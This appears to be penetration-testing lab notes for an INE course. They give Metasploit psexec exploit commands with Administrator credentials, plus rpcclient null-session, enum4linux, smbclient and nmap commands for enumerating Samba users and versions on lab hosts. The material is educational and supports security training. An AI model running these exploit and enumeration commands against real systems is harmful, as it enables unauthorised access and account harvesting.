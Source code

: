 ```
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass qwertyuiop
exploit
```



# samba
```
1. Find the OS version of samba server using rpcclient.
Ans. 
`rpcclient -U "" -N 10.0.1.22`
`srvinfo`

2. Find the OS version of samba server using enum4Linux.
Ans. `enum4linux -o 10.0.1.22`

3. Find the server description of samba server using smbclient.
Ans. `smbclient -L 10.0.1.22 -N`


4. Is NT LM 0.12 (SMBv1) dialects supported by the samba server? Use appropriate nmap script.
Ans. `nmap -p445 --script smb-protocols 10.0.1.22`

5. Is SMB2 protocol supported by the samba server? Use smb2 metasploit module.
Ans. 
- `msfconsole`
- `use auxiliary/scanner/smb/smb2
- `set RHOSTS 10.0.1.22`
- `exploit`

6. List all users that exists on the samba server  using appropriate nmap script.
Ans. `nmap --script smb-enum-users -p445 10.0.1.22`

7. List all users that exists on the samba server  using smb_enumusers metasploit modules.
Ans. 
- `msfconsole`
- `use auxiliary/scanner/smb/smb_enumusers
- `set RHOSTS 10.0.1.22`
- `exploit`

8. List all users that exists on the samba server  using enum4Linux.
Ans. enum4linux -U 10.0.1.22

9. List all users that exists on the samba server  using rpcclient.
Ans. rpcclient -U "" -N 10.0.1.22

10. Find SID of user “admin” using rpcclient.



Find the exact version of samba server by using appropriate nmap script.
Ans. nmap --script smb-os-discovery -p445 10.0.1.22

Find the exact version of samba server by using smb_version metasploit module.
Ans.
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.0.1.22
exploit

```